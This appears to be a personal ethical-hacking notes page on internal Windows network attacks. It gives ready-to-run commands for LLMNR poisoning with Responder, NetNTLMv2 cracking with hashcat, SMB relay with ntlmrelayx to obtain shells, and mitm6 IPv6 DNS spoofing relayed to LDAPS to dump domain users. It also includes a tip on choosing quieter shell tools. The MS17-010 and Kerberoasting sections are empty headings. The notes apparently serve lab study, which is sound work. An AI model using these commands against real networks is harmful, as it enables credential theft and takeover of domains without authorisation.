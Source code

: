 **1 Netbios && LLMNR Name Poisoning**
**2 Relay Attacks**
**3 MITM6**
**4 MS17-010**
**5 Kerberoasting**

---

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:**

- needs traffic - ideal before nmap/nessus scans
- responder:

  `python /usr/share/responder/Responder.py -L eth0 -rdwv`

  a) try to access attacker IP address:: \ ![llmnr_poison](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/admin_malz_llmnr_poison.png)

  `hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt # --m 5600 module for NetNTLMv2`

---

**2. SMB Relay attacks:**

- Requirements: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
- setup ntlmrelay:: \ ![ntlmrelay.py](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/ntlmrelay_py.png)
  a) Find machines w/ smb enabled: Nessus or Nmap:


`/opt/impacket/examples/$ python3ntlmrelayx.py -tf targets.txt -smb2support (-i) #python3 -m pip install . ## -i interactive`

- Working but keeps failing:: \ ![revmalz](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/revshell_smb_malz.png)
  && \ ![break](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/malz_smb_breaking.png)
- shells W/ creds:: \ ![shells](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/meterpreter_psexec_shells.png) \
  *wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy*

---

**3. Pv6 Attacks: DNS relay:**

*Requirements, must have certificate in DC: manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs*

Setup relay && ipv6 spoofing:

a. `/opt/mitm6/mitm6$ sudo python3 mitm6.py -d carbon.local #(DC) ` \
b. `/opt/impacket/examples$ sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme` \
c. `xdg-open /opt/impacket/examples/lootme/domain_users_by_group.html` \

![IPv6_relay](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/relay_ipv6.png)

---

4. MS17-010 \

---

[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa) \
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords) \
[impacket] (https://github.com/SecureAuthCorp/impacket) \
[mitm6] (https://github.com/dirkjanm/mitm6) \
